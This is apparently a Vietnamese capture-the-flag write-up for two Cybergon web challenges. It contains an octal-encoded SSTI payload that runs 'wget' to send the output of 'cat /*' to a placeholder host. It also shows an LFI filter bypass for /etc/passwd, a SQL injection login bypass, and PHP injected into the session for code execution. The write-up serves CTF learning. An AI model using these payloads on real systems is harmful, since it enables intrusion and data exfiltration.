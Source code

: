 Website: https://cybergon.ctfd.io/challenges
# Web
## 1. Flappy Block v2
Website bị lỗi SSTI ở path `https://cybergon-flappy-block.chals.io/image?text={{ssti_payload}}`.

Nhận thấy website có những cơ chế sau:

+) Blacklist `_` `.` `|` `x`

+) Blacklist keywords `config`

+) Chuyển đổi ký tự: r->w, R->W, l->w, L->W, u->yu, U->yU

Do đó, hầu hết các attack vector đều đã bị chặn.

Solution: octal encoding

```
https://cybergon-flappy-block.chals.io/image?text={{%27%27[%27\137\137\143\154\141\163\163\137\137%27][%27\137\137\155\162\157\137\137%27][1][%27\137\137\163\165\142\143\154\141\163\163\145\163\137\137%27]()[140][%27\137\137\151\156\151\164\137\137%27][%27\137\137\147\154\157\142\141\154\163\137\137%27][%27popen%27](%27wget%20https://yourwebsitehere?d=`cat%20/*`%27)}}
```

Kinh nghiệm: Sử dụng octal encoding để bypass character blocking. Bài này mình đã mất rất nhiều thời gian tìm payload vòng tránh, các hàm chuyển đổi, các encoding như UTF-8 UTF-16 nhưng không được. Cuối cùng solution lại là octal encoding, rất phổ biến.

## 2. Cybergon's Blog
Website có form login và tiết lộ rằng có tài khoản `user:user`

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/58e108ff-4a5e-4905-bfcb-6dc9d10a31d0)

Sau khi login, ta thấy có path `https://cybergon-blog.chals.io/post.php?view=firstpost.md`. Tham số `view` có cơ chế phòng chống LFI bằng cách xóa các ký tự như `../`, `flag`, `passwd`, `var`, ...

Tuy nhiên, ta có thể bypass bằng cách dùng payload: `https://cybergon-blog.chals.io/post.php?view=....//....//....//....//etc/passpassswdwd`

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/ac8e972b-eca5-491e-9cba-a7834164d37d)

Tiếp theo cần tìm cách lấy tên file flag. Thử đọc file `/proc/self/fd/10` thì thấy có user session được lưu:

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/b870180f-112b-46f1-9b3c-1fcd1530dce3)

Như vậy, nếu có thể thay chèn PHP payload vào session thì ta có thể thực thi RCE. Nhận thấy không thể chèn php payload vào tham số `theme`.

Trong trang login, thử nhập username `user'` thì có lỗi `Wrong username/password combination.`. Nhưng khi nhập username `user"` thì có lỗi `User not exist, please register to continue!`. Thay với payload `user" or "1"="1` thì thấy login thành công. Như vậy ở đây có lỗi SQL injection.

Đăng nhập với username sau: `<?php echo 'triet' ?>" or "1"="1" limit 1 --`
Sau khi thành công, dùng LFI đọc file `/proc/self/fd/10`, ta thấy:

![image](https://github.com/n0bitaemon/CTF-writeup/assets/103978452/030dad59-f9c7-4b91-b81a-9435fdb298ca)

Như vậy ta đã RCE thành công => đọc flag thôi!
